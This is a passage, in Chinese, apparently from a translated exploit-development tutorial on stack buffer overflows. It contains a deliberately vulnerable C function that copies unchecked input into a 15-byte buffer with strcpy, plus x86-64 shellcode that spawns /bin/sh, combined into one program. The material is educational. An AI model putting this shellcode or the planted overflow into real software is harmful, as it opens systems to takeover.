 在以下屏幕截图中可以看到前面命令的输出：

![](img/00242.jpeg)

是的，我们改变了执行流程，执行了一些不应该执行的东西！

让我们尝试另一个负载只是为了好玩。我们将在此处使用我们的代码：

```
int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

但是我们将添加上一章中的`execve`系统调用来运行`/bin/sh`：

```
unsigned char code[] =
 "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
 }
```

让我们把它们放在一起：

```
 #include <stdio.h>
 #include <string.h>
 #include <stdlib.h>

 void shell_pwn()
 {
    char code[] =
     "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
     \x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
 }
 int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

```